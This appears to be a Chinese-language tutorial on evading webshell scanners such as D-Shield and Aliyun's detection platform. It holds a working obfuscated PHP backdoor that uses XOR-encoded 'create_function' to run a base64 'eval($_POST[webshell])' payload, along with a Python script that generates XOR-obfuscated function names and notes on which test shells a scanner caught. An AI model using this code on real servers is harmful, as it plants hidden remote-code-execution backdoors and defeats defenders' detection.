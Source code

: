国内常见查杀软件：

1. D 盾防火墙
2. 百度 WEBDIR+
3. 阿里云 Webshell 检测平台

## 1 理论

### 1.1 识别方式

1. 静态（分析已知类型后门的 hash 值或文件特征）
2. 敏感函数（例如 eval）
3. 敏感调用（例如写一个变量 $a=eval 调用 $a() 即可调用 eval）
4. 污点分析（底层代码分析，较难解决，阿里云擅长）

### 1.2 免杀方式

1. 对敏感函数进行编码（不推荐 base64、异或（随机字符建议使用 16 进制），太常见，在 jsp 中建议用 unicode ）
2. 字符串拼接
3. 加解密
4. 反序列化（在 php 中推荐）

### 1.3 Payload

```php
<?php
class LJEF{
    function __destruct(){
        $TPHV='IUBNRVl{h_t|>DS'^"\x2a\x27\x27\x2f\x26\x33\x33\x1d\x1d\x31\x17\x8\x57\x2b\x3d";
        @$TPHV=$TPHV('',$this->INTA);
        return @$TPHV();
    }
}
$ljef=new LJEF();
@$ljef->INTA=base64_decode("IEBldmFsKCRfUE9TVFt3ZWJzaGVsbF0pOw==");
?>
```

>  `$TPHV` 的内容为异或，结果是 `create_function` ，以执行匿名函数 `INTA` ，避免直接执行 `base64_decode` 时被解密
>
>  `INTA` 的 `base64` 编码可以拆分为多个魔术方法后再拼接到一起，达到更好的免杀效果
>
>  在 `LJEF` 类中没有给 `INTA` 赋值，那么可以在调用 `LJEF` 时对 `INTA` 赋值
>
>  密钥为 `webshell`

### 1.4 异或

```php
$TPHV='IUBNRVl{h_t|>DS'^"\x2a\x27\x27\x2f\x26\x33\x33\x1d\x1d\x31\x17\x8\x57\x2b\x3d"
```

> 对异或函数 `IUBNRVl{h_t|>DS` 解密

函数 `IUBNRVl{h_t|>DS`  是对 `create_function` 进行异或加密得到的函数

```
┌──(root㉿kali-31)-[~]
└─# vim create_function.php
```

```php
<?php
$TPHV='create_function'^"\x2a\x27\x27\x2f\x26\x33\x33\x1d\x1d\x31\x17\x8\x57\x2b\x3d";
echo $TPHV
?>
```

```
┌──(root㉿kali-31)-[~]
└─# php create_function.php
IUBNRVl{h_t|>DS
```

> 异或的加密密钥可以是随机的，但要与 `create_function` 字符长度相同
>
> 加密后的值要避免不可见字符，无法解密 

异或脚本

```
┌──(root㉿kali-31)-[~]
└─# vim xor.py
```

```python
#!/usr/bin/python3
import chardet
import base64
import random
import sys
import zlib

def gen_payload(func):
    func_line1 = ''
    func_line2 = ''
    key = random_keys(len(func))
    for i in range(0,len(func)):
        enc = xor(func[i],key[i])
        func_line1 += key[i]
        func_line2 += enc
    payload = '\'{0}\'^"{1}"'.format(func_line1,func_line2)
    return payload
def random_keys(len):
    str = '`~-=!@#$%^&*_/+?<>{}|:[]abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'
    return ''.join(random.sample(str,len))
def xor(c1,c2):
    return hex(ord(c1)^ord(c2)).replace('0x',r"\x")

func1 = sys.argv[1]
print(gen_payload(func1))
```

> 这个脚本中的加密密钥是随机的

使用脚本对 `eval` 函数进行异或加密

```
┌──(root㉿kali-31)-[~]
└─# python xor.py eval
'>!f_'^"\x5b\x57\x7\x33"
```

> 异或由于太常用，已经很难利用

### 1.5 实战

将四个 payload 放入虚拟机，使用 D 盾进行扫描

1. 未加密的一句话木马
2. 加密的一句话木马
3. 简单加密的大马
4. 可绕过安全狗的大马

![将四个 payload 放入虚拟机，使用 D 盾进行扫描](./../../../images/WebShell%20%E7%9A%84%E5%85%8D%E6%9D%80/%E5%B0%86%E5%9B%9B%E4%B8%AA%20payload%20%E6%94%BE%E5%85%A5%E8%99%9A%E6%8B%9F%E6%9C%BA%EF%BC%8C%E4%BD%BF%E7%94%A8%20D%20%E7%9B%BE%E8%BF%9B%E8%A1%8C%E6%89%AB%E6%8F%8F.png)

> 发现识别出了未加密的一句话木马（`shell-没有加密一句话.php`）和简单加密的大马（`webshell大马.php`）